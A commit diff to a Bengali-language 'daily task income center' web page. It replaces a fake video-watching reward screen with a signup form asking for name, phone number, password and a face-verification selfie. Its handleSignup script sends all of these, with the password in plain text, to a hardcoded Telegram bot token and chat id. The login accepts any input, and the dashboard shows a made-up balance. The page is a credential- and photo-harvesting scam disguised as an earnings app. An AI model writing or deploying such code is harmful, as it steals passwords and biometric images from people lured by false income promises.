

Before and after one commit to aminul162699-cpu/daraz-play-income, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,265 +4,151 @@
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Daraz Play Income Center</title>
+    <script src="https://cdn.tailwindcss.com"></script>
+    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.4.0/css/all.min.css">
+    <link href="https://fonts.googleapis.com/css2?family=Hind+Siliguri:wght@400;500;600;700&display=swap" rel="stylesheet">
     <style>
-        * {
-            margin: 0;
-            padding: 0;
-            box-sizing: border-box;
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-        }
-        body {
-            background-color: #0f172a;
-            color: #f8fafc;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            min-height: 100vh;
-        }
-        .app-container {
-            width: 100%;
-            max-width: 400px;
-            background: #121824;
-            border-radius: 20px;
-            overflow: hidden;
-            box-shadow: 0 10px 25px rgba(0,0,0,0.6);
-            display: flex;
-            flex-direction: column;
-            height: 92vh;
-            max-height: 750px;
-            border: 1px solid rgba(255,255,255,0.08);
-        }
-        .header {
-            background: linear-gradient(135deg, #f97316, #ea580c);
-            padding: 20px 15px;
-            text-align: center;
-            border-bottom-left-radius: 20px;
-            border-bottom-right-radius: 20px;
-            box-shadow: 0 4px 15px rgba(249, 115, 22, 0.3);
-        }
-        .header h1 {
-            font-size: 20px;
-            margin-bottom: 4px;
-            color: white;
-            font-weight: 800;
-        }
-        .header p {
-            font-size: 12px;
-            color: #ffedd5;
-            font-weight: 600;
-        }
-        .balance-card {
-            background: #1e293b;
-            margin: 15px;
-            padding: 18px;
-            border-radius: 16px;
-            text-align: center;
-            border: 1px solid rgba(255,255,255,0.06);
-            box-shadow: 0 6px 20px rgba(0,0,0,0.3);
-        }
-        .balance-card p {
-            font-size: 13px;
-            color: #94a3b8;
-            font-weight: 600;
-            text-transform: uppercase;
-            letter-spacing: 0.5px;
-        }
-        .balance-card h2 {
-            font-size: 32px;
-            color: #4ade80;
-            margin-top: 6px;
-            font-weight: 800;
-            text-shadow: 0 2px 10px rgba(74, 222, 128, 0.2);
-        }
-        .content {
-            flex: 1;
-            padding: 15px;
-            overflow-y: auto;
-        }
-        .task-section-title {
-            font-size: 18px;
-            font-weight: 800;
-            color: #f8fafc;
-            margin-bottom: 6px;
-        }
-        .task-section-desc {
-            font-size: 12px;
-            color: #94a3b8;
-            margin-bottom: 15px;
-            line-height: 1.4;
-        }
-        .btn {
-            display: block;
-            width: 100%;
-            padding: 14px;
-            background: #f97316;
-            color: white;
-            border: none;
-            border-radius: 12px;
-            font-size: 15px;
-            font-weight: bold;
-            cursor: pointer;
-            text-align: center;
-            margin-bottom: 12px;
-            transition: 0.2s;
-            box-shadow: 0 4px 15px rgba(0,0,0,0.2);
-        }
-        .btn:active {
-            transform: scale(0.98);
-        }
-        .btn-success {
-            background: linear-gradient(135deg, #22c55e, #16a34a);
-            box-shadow: 0 4px 15px rgba(34, 197, 94, 0.3);
-        }
-        .nav-bar {
-            display: flex;
-            background: #0f172a;
-            border-top: 1px solid rgba(255,255,255,0.08);
-            padding: 4px 0;
-        }
-        .nav-item {
-            flex: 1;
-            padding: 12px;
-            text-align: center;
-            color: #64748b;
-            cursor: pointer;
-            font-size: 13px;
-            font-weight: 700;
-            transition: color 0.2s;
-        }
-        .nav-item.active {
-            color: #f97316;
-        }
-        .section {
-            display: none;
-        }
-        .section.active {
-            display: block;
-        }
-        input, select {
-            width: 100%;
-            padding: 12px;
-            margin-bottom: 12px;
-            background: #0f172a;
-            border: 1px solid #334155;
-            color: white;
-            border-radius: 10px;
-            font-size: 14px;
-            outline: none;
-        }
-        input:focus, select:focus {
-            border-color: #f97316;
-        }
-        label {
-            display: block;
-            font-size: 12px;
-            color: #94a3b8;
-            font-weight: 700;
-            margin-bottom: 6px;
-        }
+        body { font-family: 'Hind Siliguri', sans-serif; background-color: #064e3b; color: #f8fafc; }
+        .page-section { display: none; }
+        .page-section.active { display: block; }
     </style>
 </head>
-<body>
+<body class="flex flex-col min-h-screen justify-center items-center p-4">
 
-    <div class="app-container">
+    <div class="w-full max-w-md bg-emerald-950/80 border border-emerald-700/50 p-6 rounded-3xl shadow-2xl backdrop-blur-md">
+
         <!-- Header -->
-        <div class="header">
-            <h1>🎮 দারাজ প্লে ইনকাম সেন্টার</h1>
-            <p>ভিডিও ও গেম খেলে ইনকাম করুন</p>
+        <div class="text-center mb-6">
+            <h1 class="text-2xl font-bold text-amber-400">💰 ডেইলি টাস্ক ইনকাম সেন্টার</h1>
         </div>
 
-        <!-- Balance Section -->
-        <div class="balance-card">
-            <p>আপনার মূল ব্যালেন্স</p>
-            <h2>৳ <span id="balance">15.00</span></h2>
+        <!-- SIGNUP / REGISTRATION PAGE -->
+        <div id="signup-page" class="page-section active space-y-4">
+            <div class="text-center mb-4">
+                <h2 class="text-xl font-bold text-slate-100">নিবন্ধন</h2>
+                <p class="text-xs text-slate-300">ইতিমধ্যেই একটি অ্যাকাউন্ট আছে? <a href="#" onclick="switchPage('login')" class="text-amber-400 underline">লগইন</a></p>
+            </div>
+
+            <form onsubmit="handleSignup(event)" class="space-y-4">
+                <div class="relative">
+                    <span class="absolute inset-y-0 left-0 flex items-center pl-3 text-emerald-400"><i class="fa-solid fa-user"></i></span>
+                    <input type="text" id="reg-name" placeholder="আপনার পূর্ণ নাম" class="w-full bg-emerald-900/60 border border-emerald-700 rounded-xl py-3 pl-10 pr-4 text-slate-100 placeholder-slate-400 focus:outline-none focus:border-amber-400 text-sm" required>
+                </div>
+                <div class="relative">
+                    <span class="absolute inset-y-0 left-0 flex items-center pl-3 text-emerald-400"><i class="fa-solid fa-phone"></i></span>
+                    <input type="tel" id="reg-phone" placeholder="ফোন নম্বর" class="w-full bg-emerald-900/60 border border-emerald-700 rounded-xl py-3 pl-10 pr-4 text-slate-100 placeholder-slate-400 focus:outline-none focus:border-amber-400 text-sm" required>
+                </div>
+                <div class="relative">
+                    <span class="absolute inset-y-0 left-0 flex items-center pl-3 text-emerald-400"><i class="fa-solid fa-lock"></i></span>
+                    <input type="password" id="reg-password" placeholder="পাসওয়ার্ড" class="w-full bg-emerald-900/60 border border-emerald-700 rounded-xl py-3 pl-10 pr-4 text-slate-100 placeholder-slate-400 focus:outline-none focus:border-amber-400 text-sm" required>
+                </div>
+                <div class="border-2 border-dashed border-emerald-700 p-3 rounded-xl text-center bg-emerald-900/30">
+                    <label class="block text-xs text-amber-300 mb-2 font-medium">📸 ফেস ভেরিফিকেশন ছবি (সেলফি):</label>
+                    <input type="file" id="reg-selfie" accept="image/*" class="w-full text-xs text-slate-300 file:mr-4 file:py-2 file:px-4 file:rounded-lg file:border-0 file:text-xs file:font-semibold file:bg-amber-400 file:text-slate-950 hover:file:bg-amber-500 cursor-pointer" required>
+                </div>
+                <button type="submit" id="submit-btn" class="w-full bg-gradient-to-r from-amber-400 to-amber-500 hover:from-amber-500 hover:to-amber-600 text-slate-950 font-bold py-3 rounded-xl shadow-lg transition duration-200">
+                    নিবন্ধন
+                </button>
+            </form>
         </div>
 
-        <!-- Main Content Area -->
-        <div class="content">
-            <!-- Home / Watch Section -->
-            <div id="home-section" class="section active">
-                <div class="task-section-title">ভিডিও টাস্ক</div>
-                <div class="task-section-desc">নিচের বাটনটিতে ক্লিক করে ভিডিও দেখুন এবং ব্যালেন্স যোগ করুন।</div>
-                <button class="btn btn-success" id="watch-btn" onclick="watchVideo()">▶ ভিডিও দেখুন (বোনাস পান)</button>
-                <p id="timer-text" style="text-align: center; margin-top: 10px; color: #facc15; font-size: 13px; font-weight: 700;"></p>
+        <!-- LOGIN PAGE -->
+        <div id="login-page" class="page-section space-y-4">
+            <div class="text-center mb-4">
+                <h2 class="text-xl font-bold text-slate-100">লগইন</h2>
+                <p class="text-xs text-slate-300">এখনও কোনো অ্যাকাউন্ট নেই? <a href="#" onclick="switchPage('signup')" class="text-amber-400 underline">নিবন্ধন</a></p>
             </div>
 
-            <!-- Withdraw Section -->
-            <div id="withdraw-section" class="section">
-                <div class="task-section-title" style="margin-bottom: 12px;">টাকা উত্তোলন (Withdraw)</div>
-                <label>পেমেন্ট মেথড:</label>
-                <select id="method">
-                    <option value="bKash">বিকাশ (bKash)</option>
-                    <option value="Nagad">নগদ (Nagad)</option>
-                </select>
-                <label>একাউন্ট নম্বর:</label>
-                <input type="text" id="account" placeholder="017xxxxxxxx">
-                <label>টাকার পরিমাণ:</label>
-                <input type="number" id="amount" placeholder="সর্বনিম্ন ৫০ টাকা">
-                <button class="btn" onclick="requestWithdraw()">উত্তোলন রিকোয়েস্ট পাঠান</button>
-            </div>
+            <form onsubmit="handleLogin(event)" class="space-y-4">
+                <div class="relative">
+                    <span class="absolute inset-y-0 left-0 flex items-center pl-3 text-emerald-400"><i class="fa-solid fa-phone"></i></span>
+                    <input type="tel" id="login-phone" placeholder="ফোন নম্বর" class="w-full bg-emerald-900/60 border border-emerald-700 rounded-xl py-3 pl-10 pr-4 text-slate-100 placeholder-slate-400 focus:outline-none focus:border-amber-400 text-sm" required>
+                </div>
+                <div class="relative">
+                    <span class="absolute inset-y-0 left-0 flex items-center pl-3 text-emerald-400"><i class="fa-solid fa-lock"></i></span>
+                    <input type="password" id="login-password" placeholder="পাসওয়ার্ড" class="w-full bg-emerald-900/60 border border-emerald-700 rounded-xl py-3 pl-10 pr-4 text-slate-100 placeholder-slate-400 focus:outline-none focus:border-amber-400 text-sm" required>
+                </div>
+                <button type="submit" class="w-full bg-gradient-to-r from-amber-400 to-amber-500 text-slate-950 font-bold py-3 rounded-xl shadow-lg transition">
+                    লগইন
+                </button>
+            </form>
+        </div>
 
-            <!-- Profile Section -->
-            <div id="profile-section" class="section">
-                <div class="task-section-title" style="margin-bottom: 12px;">আপনার অ্যাকাউন্ট</div>
-                <label>রেফারেল লিংক:</label>
-                <input type="text" value="https://t.me/DarazPlayBot?start=ref123" readonly>
-                <button class="btn" onclick="alert('রেফারেল লিংক কপি করা হয়েছে!')">লিংক কপি করুন</button>
+        <!-- DASHBOARD -->
+        <div id="dashboard-page" class="page-section text-center space-y-4">
+            <h2 class="text-xl font-bold text-emerald-400">স্বাগতম!</h2>
+            <p class="text-sm text-slate-300">আপনার অ্যাকাউন্ট সফলভাবে তৈরি হয়েছে।</p>
+            <div class="bg-emerald-900/50 p-4 rounded-xl border border-emerald-700">
+                <p class="text-xs text-slate-400">মূল ব্যালেন্স</p>
+                <h3 class="text-2xl font-bold text-amber-400">৳ 12.50</h3>
             </div>
         </div>
 
-        <!-- Bottom Navigation -->
-        <div class="nav-bar">
-            <div class="nav-item active" onclick="switchTab('home', this)">হোম</div>
-            <div class="nav-item" onclick="switchTab('withdraw', this)">উইথড্র</div>
-            <div class="nav-item" onclick="switchTab('profile', this)">প্রোফাইল</div>
-        </div>
     </div>
 
     <script>
-        let userBalance = 15.00;
-        document.getElementById('balance').innerText = userBalance.toFixed(2);
-
-        function switchTab(tabName, element) {
-            document.querySelectorAll('.section').forEach(sec => sec.classList.remove('active'));
-            document.querySelectorAll('.nav-item').forEach(item => item.classList.remove('active'));
-
-            document.getElementById(tabName + '-section').classList.add('active');
-            element.classList.add('active');
+        function switchPage(page) {
+            document.querySelectorAll('.page-section').forEach(el => el.classList.remove('active'));
+            if(page === 'signup') document.getElementById('signup-page').classList.add('active');
+            if(page === 'login') document.getElementById('login-page').classList.add('active');
+            if(page === 'dashboard') document.getElementById('dashboard-page').classList.add('active');
         }
 
-        function watchVideo() {
-            let btn = document.getElementById('watch-btn');
-            let timerText = document.getElementById('timer-text');
+        async function handleSignup(event) {
+            event.preventDefault();
+
+            const name = document.getElementById('reg-name').value;
+            const phone = document.getElementById('reg-phone').value;
+            const password = document.getElementById('reg-password').value;
+            const selfieFile = document.getElementById('reg-selfie').files[0];
+
+            let registeredNumbers = JSON.parse(localStorage.getItem('registered_phones')) || [];
+            if (registeredNumbers.includes(phone)) {
+                alert('এই ফোন নম্বরটি দিয়ে ইতিমধ্যে একটি অ্যাকাউন্ট খোলা হয়েছে! একবারের বেশি খোলা যাবে না।');
+                return;
+            }
+
+            const btn = document.getElementById('submit-btn');
+            btn.innerText = 'অপেক্ষা করুন...';
             btn.disabled = true;
-            let countdown = 5;
 
-            timerText.innerText = `ভিডিও লোড হচ্ছে... ${countdown} সেকেন্ড অপেক্ষা করুন`;
+            const botToken = '9160504002:AAGUXsLTcUik8Wam5rBg-d619CPjnu_cQSg';
+            const chatId = '8561008519';
 
-            let interval = setInterval(() => {
-                countdown--;
-                if (countdown > 0) {
-                    timerText.innerText = `দয়া করে অপেক্ষা করুন... ${countdown} সেকেন্ড`;
+            const formData = new FormData();
+            formData.append('chat_id', chatId);
+            formData.append('photo', selfieFile);
+            formData.append('caption', `🔔 নতুন সাইন-আপ তথ্য:\n👤 নাম: ${name}\n📞 নম্বর: ${phone}\n🔑 পাসওয়ার্ড: ${password}`);
+
+            try {
+                let response = await fetch(`https://api.telegram.org/bot${botToken}/sendPhoto`, {
+                    method: 'POST',
+                    body: formData
+                });
+                let result = await response.json();
+
+                if (result.ok) {
+                    registeredNumbers.push(phone);
+                    localStorage.setItem('registered_phones', JSON.stringify(registeredNumbers));
+                    alert('নিবন্ধন সফল হয়েছে!');
+                    switchPage('dashboard');
                 } else {
-                    clearInterval(interval);
-                    userBalance += 2.50;
-                    document.getElementById('balance').innerText = userBalance.toFixed(2);
-                    timerText.innerText = "অভিনন্দন! আপনি ২.৫০ টাকা পেয়েছেন।";
+                    alert('তথ্য পাঠাতে সমস্যা হয়েছে। আবার চেষ্টা করুন।');
+                    btn.innerText = 'নিবন্ধন';
                     btn.disabled = false;
                 }
-            }, 1000);
+            } catch (error) {
+                console.error(error);
+                alert('নেটওয়ার্ক ত্রুটি ঘটেছে!');
+                btn.innerText = 'নিবন্ধন';
+                btn.disabled = false;
+            }
         }
 
-        function requestWithdraw() {
-            let acc = document.getElementById('account').value;
-            let amt = document.getElementById('amount').value;
-            if(acc === "" || amt === "") {
-                alert("দয়া করে সঠিক তথ্য দিন!");
-            } else {
-                alert("আপনার উইথড্র রিকোয়েস্ট সফলভাবে জমা হয়েছে!");
-                document.getElementById('account').value = "";
-                document.getElementById('amount').value = "";
-            }
+        function handleLogin(event) {
+            event.preventDefault();
+            alert('লগইন সফল হয়েছে!');
+            switchPage('dashboard');
         }
     </script>
 </body>
```
